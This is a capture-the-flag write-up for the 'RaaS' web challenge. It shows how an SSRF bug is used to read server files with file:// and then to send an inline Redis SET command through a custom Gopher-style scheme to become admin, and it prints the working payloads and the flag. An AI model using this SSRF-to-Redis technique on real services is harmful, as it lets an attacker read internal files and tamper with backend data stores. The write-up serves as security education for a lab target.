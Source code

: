 ```yaml
---
description: SSRF using Gopher protocol leads to tampering of Redis key-value store
---
```


# RaaS

## Challenge

**Description:** Since everything is going online, I decided to make an easy Requests as a Service Bot to make life easier, but I seem to have messed up oops!!!

**Author:** [Capt-k](https://twitter.com/Captainkay11)

## Solution

### Local File Inclusion

We are able to enter a URL for the server to request. A pretty trivial LFI vulnerability exists as a result of SSRF, allowing us to view files using the `file://` protocol.

![](../../.gitbook/assets/screenshot-2021-08-16-at-6.59.26-pm.png)

Since we're provided with the Dockerfile, we know that the server code is in `/code/app.py`.

```text
ADD flask-server /code
WORKDIR /code
RUN pip install -r requirements.txt
CMD ["python", "app.py"]
```

Thus, we can request `file:///code/app.py` to view the server code.

```http
POST / HTTP/1.1
Host: web.challenge.bi0s.in:6969
Content-Length: 33

...

url=file%3A%2F%2F%2Fcode%2Fapp.py
```

Immediately, we see that a Redis database is used. The hostname is `redis`, and it is listening on port 6379.

If a POST request is received, the `Requests_On_Steroids` function, which we will analyze later, is used to fetch the URL. Otherwise, the `<userID>_isAdmin` key in the Redis database is checked. If the value is "yes", then the flag is shown in the response.

```python
from flask import Flask, request,render_template,request,make_response
import redis
import time
import os
from utils.random import Upper_Lower_string
from main import Requests_On_Steroids
app = Flask(__name__)

# Make a connection of the queue and redis
r = redis.Redis(host='redis', port=6379)
#r.mset({"Croatia": "Zagreb", "Bahamas": "Nassau"})
#print(r.get("Bahamas"))
@app.route("/",methods=['GET','POST'])
def index():
    if request.method == 'POST':
        url = str(request.form.get('url'))
        resp = Requests_On_Steroids(url)
        return resp
    else:   
        resp = make_response(render_template('index.html'))
        if not request.cookies.get('userID'):
            user=Upper_Lower_string(32)
            r.mset({str(user+"_isAdmin"):"false"})
            resp.set_cookie('userID', user)
        else:
            user=request.cookies.get('userID')
            flag=r.get(str(user+"_isAdmin"))
            if flag == b"yes":
                resp.set_cookie('flag',str(os.environ['FLAG']))
            else:
                resp.set_cookie('flag', "NAAAN")
        return resp

if __name__ == "__main__":
    app.run('0.0.0.0')
```

It appears that we would have to overwrite our `<userID>_isAdmin` value. Since we have a SSRF vulnerability, we might be able to leverage it to communicate with the Redis instance.

### Redis Over Gopher

In `main.py`, we can see that the `Requests_On_Steroids` function supports the Gopher protocol. Using Gopher, we can communicate with any TCP server \(but of course, we would have to follow the service's higher-layer protocol\). 

However, instead of `gopher://`, we must use `inctf://` instead.

```python
import requests, re, io, socket
from urllib.parse import urlparse, unquote_plus
import os
from modules.Gophers import GopherAdapter 
from modules.files import LocalFileAdapter 


def Requests_On_Steroids(url):
    try:
        s = requests.Session()
        s.mount("inctf:", GopherAdapter())
        s.mount('file://', LocalFileAdapter())
        resp = s.get(url)
        assert resp.status_code == 200
        return(resp.text)
    except:
        return "SOME ISSUE OCCURED"
    

#resp = s.get("butts://127.0.0.1:6379/_get dees")
```

In `modules/Gophers.py`, we find the `GopherAdapter` code.

```python
import requests, re, io, socket
from urllib.parse import urlparse, unquote_plus
import os

...

class GopherAdapter(requests.adapters.BaseAdapter):

    ...

    def _connect_and_read(self, parsed):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(self._netloc_to_tuple(parsed.netloc))
        msg = parsed.path.replace('/_','')
        if hasattr(parsed, "query"):
            msg += "\t" + parsed.query
        msg += "\r\n"
        print(bytes(msg, 'utf-8'))
        s.sendall(bytes(msg, 'utf-8'))
        f = s.makefile("rb")
        res = b""
        data = f.readline()
        print(data)
        f.close()
        return res

    ...
```

With some Googling, we can find out that the Gopher adapter was actually modified from this [GitHub gist](https://gist.github.com/MineRobber9000/24c87d3fb50d0b942989cbe4d4da7e73). I wanted to find out if any changes was made from the original script, so I diff-ed the two scripts.

![](../../.gitbook/assets/upload_0c5ea44b408970eff89e390b45d2dae1.png)

Interestingly,  a line of code was modified to remove `/_` in the URL's path.

```python
msg = parsed.path.replace('/_','')
```

Ideally, we would send multi-line input using the [RESP protocol](https://redis.io/topics/protocol), but this wouldn't work because `urllib.parse` was updated to [strip newline characters](https://docs.python.org/3.6/library/urllib.parse.html#module-urllib.parse). 

Redis also offers inline commands, allowing us to send our commands directly, but without the above change, our inline commands \(`parsed.path`\) would still look like this:

```text
/SET <userID>_isAdmin "yes"
```

The `/SET` command is unrecognized, leading to an error. Instead, we can leverage the replacement using the following payload:

```text
url=inctf://redis:6379/_SET <userID>_isAdmin "yes"
```

The path, when replaced, would be

```text
SET <userID>_isAdmin "yes"
```

which sets our `<userID>_isAdmin` value to "yes".

![](../../.gitbook/assets/image%20%2850%29.png)

This gives us the flag: `inctfi{IDK_WHY_I_EVEN_USED_REDIS_HERE!!!}`

